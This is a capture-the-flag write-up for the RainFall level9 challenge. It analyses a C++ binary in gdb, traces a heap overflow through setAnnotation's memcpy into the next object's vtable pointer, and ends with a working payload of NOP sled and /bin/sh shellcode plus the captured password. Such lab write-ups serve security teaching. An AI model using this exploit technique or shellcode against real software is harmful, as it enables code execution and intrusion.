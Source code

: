 1. The fact that it is c++ code qith class and object makes it a bit tricky.

2. `i functions`

```
(gdb) i functions
All defined functions:

Non-debugging symbols:
0x08048464  _init
0x080484b0  __cxa_atexit
0x080484b0  __cxa_atexit@plt
0x080484c0  __gmon_start__
0x080484c0  __gmon_start__@plt
0x080484d0  std::ios_base::Init::Init()
0x080484d0  _ZNSt8ios_base4InitC1Ev@plt
0x080484e0  __libc_start_main
0x080484e0  __libc_start_main@plt
0x080484f0  _exit
0x080484f0  _exit@plt
0x08048500  _ZNSt8ios_base4InitD1Ev
0x08048500  _ZNSt8ios_base4InitD1Ev@plt
0x08048510  memcpy
0x08048510  memcpy@plt
0x08048520  strlen
0x08048520  strlen@plt
0x08048530  operator new(unsigned int)
0x08048530  _Znwj@plt
0x08048540  _start
0x08048570  __do_global_dtors_aux
0x080485d0  frame_dummy
0x080485f4  main
0x0804869a  __static_initialization_and_destruction_0(int, int)
0x080486da  _GLOBAL__sub_I_main
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
0x08048770  __libc_csu_init
0x080487e0  __libc_csu_fini
0x080487e2  __i686.get_pc_thunk.bx
0x080487f0  __do_global_ctors_aux
0x0804881c  _fini
```

3. Program and state of the stack before calling setAnnotation:

- Basically, the 2 calls to `<_Znwj@plt>` (<+35> & <+69>)are calls to new, with an allocation size of **0x6c** (will be passed to malloc in constructor).
- Check in the above code (`i functions`), the function address is the one for `operator new(unisgned int)`
- They each allow for the creation, ON THE HEAP, of a new N object
- Then we have also 2 calls to `0x80486f6 <_ZN1NC2Ei>` which is the memory address of the N constructor (check above), with first **0x5** and the **0x6** as parameters.
- So we have two pointers to two N objects. We'll call them **n** and **m**.

lines <+58> and <+92>, we can see that n is stored at `$esp+0x1c` and m at `$esp+0x18` :

```
(gdb) x/10wx $esp
0xbffff6b0:	0x0804a008	0xbffff8c4	0xbffff780	0xb7d79e55
0xbffff6c0:	0x0804a078	0x0804a008	0x0804a078	0x0804a008
0xbffff6d0:	0x08048770	0xb7eebff4
```

so n points to memory location **0x0804a008** and m to **0x0804a078**

4. The call to setAnnotation

- Then the `setAnnotation` member function is called on the n object, with argument `argv[1]`.
- How do we know it's on n? because if we break right before the call to setAnnotation and check the stack we have :

```
(gdb) x/2wx $esp
0xbffff6b0:	0x0804a008	0xbffff8c4
(gdb) x/s 0xbffff8c4
0xbffff8c4:	 "coucou"
```

We can see that the first argument is n, and the second argument is our argv[1] (whici here as a test we set as "coucou").

- The setAnnotation function call `strlen` on its string argument (**ebp+0xc** in setAnnotation is **esp+0x4** in main, as eip and ebp are pushed onto the stack in between).
- Then it gets a pointer `ptr = value of ptr + 0x4 = 0x0804a008 + 0x4 = 0x0804a00c`
- And copies at this address the content of the string (argv[1]).


5. After setAllocation, in the main, the program calls the + operator function of m on n.
- It has to dereference m two times (lines <140> and <142>) to get to the first method which is the + operator.
- It stores the function in **edx** and calls it.

6. Our exploit:

We should use the **memcpy** in `setAnnotation` to make the call to `edx` calls a shellcode.

- So our memory where the content of argv[1] will be copied is : **0x0804a00c**
- the m pointers points to the memory location : **0x0804a078**
- => so **0x6c** or **108** bytes ahead of our pointer!

But m is dereferenced two times. So at this position we will have to write an address, which will points to another address in the buffer, which will again points to our shellcode!

- THe shellcode is 45 bytes long. The address that will point to it is 4 bytes long.
- `108 - 45 - 4 = 59 bytes` => 59 bytes of random code (we'll use the NOP opcode). Then we will erase m value with the value of the beginning of our buffer : **0x0804a00c**
- The first address will point to somewhere randomly in the NOP suite of instructions in the buffer. As the buffer starts at **0x0804a00c**, **0x0804a01c**, whici is 16 bytes ahead, is a good candidate!

Here is the exploit:

```
level9@RainFall:~$ ./level9 $(python -c 'print("\x1c\xa0\x04\x08" + "\x90" * 59 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x0c\xa0\x04\x08")')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

